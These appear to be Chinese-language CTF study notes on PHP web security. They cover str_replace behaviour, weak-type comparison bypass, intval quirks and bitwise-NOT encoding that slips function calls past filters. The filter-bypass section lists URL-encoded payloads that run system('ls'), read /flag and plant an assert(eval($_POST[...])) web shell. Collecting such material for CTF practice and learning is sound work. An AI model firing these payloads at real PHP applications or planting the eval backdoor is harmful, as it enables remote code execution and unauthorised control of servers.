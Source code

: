 - 白名单防御
- 参考 dvwa 最高级别

## php 函数文档

### str_replace

使用数组时会 1 对 1 替换，不存在时替换为空

```
str_replace(['1', '2'], ['a', 'b'], "12"); //ab
str_replace(['1'],      ['a', 'b'], "12"); //a2
str_replace(['1', '2'], ['a']     , "12"); //a
```

## php 执行绕过

### 未过滤 ()~直接用取反绕过

~x = -(x+1)

取反绕过 - 第五空间智能安全大赛 WEB hate-php

PHP7 开始可以用('phpinfo')();这种方式来执行函数

`php -r "echo urlencode(~'phpinfo');"`

```php
<?php
$str = ~"phpinfo";
echo urlencode($str);
```

payload

```php
phpinfo() == (~%8F%97%8F%96%91%99%90)()
?code=(~%8C%86%8C%8B%9A%92)(~%93%8C);  // system('ls')
?code=(~%8C%86%8C%8B%9A%92)(~%93%8C);  // system('ls')
(~%93%8C%DF%D0)();
?code=(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%99%93%9E%98%D1%8F%97%8F); // system('cat /flag')
?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%92%90%9C%97%8A%C8%A2%D6%D6); // assert((eval($_POST[mochu7])))
```

### 绕过弱类型

key == "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3", ==为弱类型即 key=123 即可

### 绕过字母/数字

```php
chr(97)
// 只有参数是数字,base才有效, 默认10,8进制定义为前置0, 16进制前置0x
echo intval(42);                      // 42
echo intval(4.2);                     // 4
echo intval('42');                    // 42
echo intval('+42');                   // 42
echo intval('-42');                   // -42
echo intval(042);                     // 34  4*8+2
echo intval('042');                   // 42
echo intval(1e10);                    // 1410065408
echo intval('1e10');                  // 1
echo intval(0x1A);                    // 26
echo intval(42000000);                // 42000000
echo intval(420000000000000000000);   // 0
echo intval('420000000000000000000'); // 2147483647
echo intval(42, 8);                   // 42
```